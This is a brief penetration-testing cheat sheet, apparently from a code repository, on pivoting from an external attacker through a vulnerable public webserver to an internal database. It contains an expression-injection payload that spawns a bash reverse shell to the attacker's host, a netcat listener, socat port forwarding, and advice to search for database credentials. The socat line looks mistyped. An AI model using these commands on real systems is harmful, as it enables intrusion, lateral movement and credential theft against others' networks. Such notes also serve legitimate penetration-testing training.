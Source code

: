 ## Table of contents
- [Simple Port Forwading](#Simple-Port-Forwading)

# Simple Port Forwading

Scenario:
 - external attacker machine
 - vulnerable public webserver (RCE)
 - internal database server, same sebserver's network

+- WAN ------------+    +- DMZ -------------------------------+<br>
|                  |    |                                     |<br>
|   [ ATTACKER ]   |    |   [ VULN-PUBLIC-SRV ]  [ DB-SRV ]   |<br>
|                  |    |                                     |<br>
+------------------+    +-------------------------------------+<br>

``` bash
# open a listener on the attacker machine
nc -nvlp 1337

# exploit the webserver with a reverse shell command
curl http://$TARGET:$PORT/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/$ATTACKER/$PORT%200%3E%261%27%29.start%28%29%22%29%7D/

# check the network configuration
# search for interesting information: webapp configuration, db credentials, ...
ip add
ip route
```

Port forwarding with socat:
 - the NAT configuration must be 1:1
 - socat must be installed on the target machine

+- WAN ------------+    +- DMZ -------------------------------+<br>
|                  |    |                                     |<br>
|   [ ATTACKER ]   |    |   [ VULN_PUBLIC_SRV ]  [ DB_SRV ]   |<br>
|                ========== LISTEN 2345 ======== FRW 5432     | ==> for PgSQL<br>
|                ========== LISTEN 2222 ======== FRW 22       | ==> for SSH<br>
+------------------+    +-------------------------------------+<br>

``` bash
socat -add TCP-LISTEN:2345,fork TCP:$DB_SRV:5432
```

Connect to DB_SRV from ATTACKER via VULN_PUBLIC_SRV:
``` bash
psql -h VULN_PUBLIC_SRV -p 2345 -U $user
```